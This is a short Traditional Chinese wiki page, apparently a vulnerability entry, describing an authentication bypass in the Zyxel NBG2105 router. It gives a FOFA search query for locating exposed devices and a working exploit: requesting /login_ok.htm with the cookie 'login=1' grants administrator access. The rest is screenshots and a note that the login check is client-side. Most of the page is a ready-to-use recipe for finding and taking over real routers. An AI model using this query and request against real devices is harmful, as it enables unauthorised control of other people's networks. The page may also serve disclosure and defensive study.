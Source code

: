 <languages  />

<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
漏洞影響
--------

</div>
    Zyxel NBG2105

FOFA
----

    app="ZyXEL-NBG2105"

![](Xnip2021-04-06_09-32-28.jpg "Xnip2021-04-06_09-32-28.jpg")

<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
其中前端文件 `/js/util_gw.js` 存在前端對 `Cookie login`參數的校驗。

</div>
<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
請求如下則會以管理員身份跳轉到 `home.htm`頁面。

</div>

    http://xxx.xxx.xxx.xxx/login_ok.htm

    Cookie: login=1;

![](Xnip2021-04-06_09-36-42.jpg "Xnip2021-04-06_09-36-42.jpg")